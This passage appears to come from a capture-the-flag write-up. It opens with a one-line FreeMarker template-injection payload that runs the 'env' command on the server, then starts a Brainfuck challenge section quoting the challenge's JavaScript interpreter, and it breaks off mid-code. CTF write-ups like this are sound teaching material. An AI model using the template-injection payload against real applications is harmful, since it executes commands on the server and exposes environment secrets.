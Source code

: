 ```java
${"freemarker.template.utility.Execute"?new()("env")}
```

### Brainfuck

*Ouch time (the first)*

The last but not the least... brainfuck !! https://en.wikipedia.org/wiki/Brainfuck

here the flag is split in 2 parts. the first one is stored in memory, the other is writted in stdin.

The author of the challenge let us the brainfuck interpreter used by the challenge : 

```javascript
function Memory(size) {
  const assertSize = (k) => {
    if (k >= 0 && k < size) return k;
    throw new Error(`out of bounds memory access`);
  };

  return new Proxy(
    {},
    {
      get: (target, key) => Reflect.get(target, assertSize(~~key)) || 0,
      set: (target, key, value) => Reflect.set(target, assertSize(~~key), value),
    }
  );
}

const StringtoIntArray = (s) => Array.from(s).map((c) => c.charCodeAt(0));
const IntArraytoString = (arr) => String.fromCharCode(...arr);

function brainfuck(rom, flag) {
  // Split flag into two parts, one will be in memory the other on stdin
  const firstHalf = StringtoIntArray(flag.slice(0, flag.length / 2));
  const secondHalf = StringtoIntArray(flag.slice(flag.length / 2));

  const ram = Memory(3000);
  const stdout = [];

  for (let i = 0; i < firstHalf.length; i++) {
    ram[i] = firstHalf[i];
  }

  let ip = 0;
  let fp = 0;

  function search(d, s="[]") {
    let depth = 1;
    while (depth > 0) {
      ip = ip + d;
      if (rom[ip] === undefined) throw new Error("unexpected end of code");
      depth += ~~(rom[ip] == s[~~(d < 0)]) - ~~(rom[ip] == s[~~(d > 0)]);
    }
  }

  const STOP = Symbol("stop");

  const ops = {
    ">": () => ++fp,
    "<": () => --fp,
    "+": () => ++ram[fp],
    "-": () => --ram[fp],
    ".": () => stdout.push(ram[fp]),
```